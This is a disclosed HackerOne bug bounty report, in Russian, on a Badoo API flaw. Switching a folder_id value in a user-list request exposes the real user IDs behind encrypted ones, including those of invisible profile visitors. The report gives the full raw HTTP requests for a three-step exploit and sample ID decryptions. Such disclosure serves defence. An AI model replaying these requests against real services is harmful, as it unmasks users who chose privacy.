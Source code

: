 # Расшифровка всех типов шифрованных ID

## Report Details
- **Report ID**: 402410
- **URL**: https://hackerone.com/reports/402410
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-08-29T12:50:18.141Z
- **Disclosed**: 2018-11-01T09:10:44.602Z

## Reporter
- **Username**: jarvis0x1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: bumble

## Vulnerability Information
Привет! Обнаружил  багу, которая позволяет очень серьезно обойти логику сайта.

Данная уязвимость позволяет расшифровать любой зашифрованный ID, который идентифицирует профиль пользователя. Для каждого пользователя генерируется несколько видов ID, например для отображения в "Знакоства",  "Live Stream", "Бан лист", "Пользователи, которые тебя лайкнули (тестовый премиум)" и даже ID пользователей-невидимок. Это те типы ID, которые я выделил, хотя может быть их и больше, просто что то мог упустить. Именно этот метод имеет доступ ко всем типам ID, что делает багу такой критичной ( в предыдущих похожих багах на расшифровку ID такого не было замеченно).

Работает уязвимость по следующему принципу. По умолчанию, при получении списка пользователей, на которых подписан в Live Stream (нажал на кнопку Follow) сайт выдает список шифрованных ID пользователей и зашифрованные url аватарок. Но если модифицировать запрос, то можно получить этот список в расшифрованном виде.

Для воспроизвидения уязвимости атаку нужно разделить на 3 этапа.

### Этап 1 ###

Добавление пользователя в список Following (https://badoo.com/live/4)

```
POST /bmaapi.phtml?SERVER_SECTION_USER_ACTION HTTP/1.1
Host: badoo.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://badoo.com/live/2
Content-Type: json
X-Desktop-web: 1
X-Message-type: 259
X-Session-id: [...My Token...]
Content-Length: 253
Connection: close

{"version":1,"message_type":259,"message_id":24,"body":[{"message_type":259,"server_section_user_action":{"action":5,"folder_id":34,"user_list":[{"person_id":["obff5b362880e6595302863c158018b1a7168112b2b249887"]}],"context":174}}],"is_background":false}
```

В person_id нужно поместить шифрованный ID пользователя, который нужно извлечь. 

### Этап 2 ###

Самый главный этап. Получение расшифрованного ID. Итак, для получения списка пользователей отправляется вот такой запрос:

```
POST /bmaapi.phtml?SERVER_GET_USER_LIST HTTP/1.1
Host: badoo.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://badoo.com/live/3
Content-Type: json
X-Desktop-web: 1
X-Message-type: 245
X-Session-id: [... My Token ...]
Content-Length: 273
Connection: close

{"version":1,"message_type":245,"message_id":18,"body":[{"message_type":245,"server_get_user_list":{"folder_id":33,"source":174,"user_field_filter":{"projection":[200,340,1254,1250,1259]},"section_requests":[{"section_id":"4"},{"section_type":25}]}}],"is_background":false}
```

А вот модифицированный запрос

```
POST /bmaapi.phtml?SERVER_GET_USER_LIST HTTP/1.1
Host: badoo.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: json
X-Desktop-web: 1
X-Message-type: 245
X-Session-id: [... My Token ...]
Content-Length: 214
Connection: close

{"version":1,"message_type":245,"message_id":92,"body":[{"message_type":245,"server_get_user_list":{"folder_id":34,"preferred_count":255,"offset":0,"user_field_filter":{"projection":[200]}}}],"is_background":false}
```

В чем разница? Разница в folder_id:
  + 33 - запрос для получения  шифрованных данных
  + 34 - запрос для получения расшифрованных данных

Так же был модифицирован projection, только для удобства.

Вот ответ с шифрованным запросом
{F339150}

Ответ с измененным folder_id
{F339149}

### Этап 3 ###

Пользователя нужно удалить из списка. Делается для того, что бы не захламлять страницу, и потом, если просматривать список через браузер, отображаются на сайте только те, кто ведет стрим в данный момент, остальные не отображаются. Для удаления пользователя из списка используется такой запрос:

```
POST /bmaapi.phtml?SERVER_SECTION_USER_ACTION HTTP/1.1
Host: badoo.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://badoo.com/live/4
Content-Type: json
X-Desktop-web: 1
X-Message-type: 259
X-Session-id: [... My Token ...]
Content-Length: 214
Connection: close

{"version":1,"message_type":259,"message_id":124,"body":[{"message_type":259,"server_section_user_action":{"action":1,"folder_id":34,"user_list":[{"person_id":["606393962"]}],"context":174}}],"is_background":false}
```

В person_id можно уже помещать расшифрованные ID.

## Impact

### Расшифровка коротких шифрованных ID ###
Расшифровка ID из страниц "Знакомства", "Live stream", "Бан лист" и тд. Расшифровка ID вот такого типа: obff5b362880e65959be3a61f779da9cf3ceb7ea826ad08ec
Пример:
 - obff5b362880e65959be3a61f779da9cf3ceb7ea826ad08ec  - 613502044 

Так же можно расшифровывать ID пользователей, которые тебе поставили лайк и у текущего владельца аккаунта есть тестовый премиум аккаунт.


PoC видео:
{F339152}

### Расшифровка ID Невидимок ###
Благодаря этой баге я могу так же определить всех невидимок, которые меня посещают. ID пользователей-невидимок отличаются от обычных шифрованных ID, они длиннее, и выглядят примерно так o929ea7096bc8bad42b2869a8c4c435274150f98113c81f4cd39fcfc305609bfe.

Вот 2 расшифровки невидимок:
- o929ea7096bc8bad42b2869a8c4c435274150f98113c81f4cd39fcfc305609bfe - 615633337
- o929ea7096bc8bad42b2869a8c4c43527978ce585ef48228f9556434756f4f127 - 623874435

Извлечь такую информацию нельзя даже купив премиум аккаунт. Это очень серьезный information disclose.

PoC о том, как как определить Невидимок, посетивших мою страницу (никакие привилегии для страницы не нужны):
{F339158}

## Attachments
- image2.png
- image1.png
- PoC.mp4
- PoC2.mp4
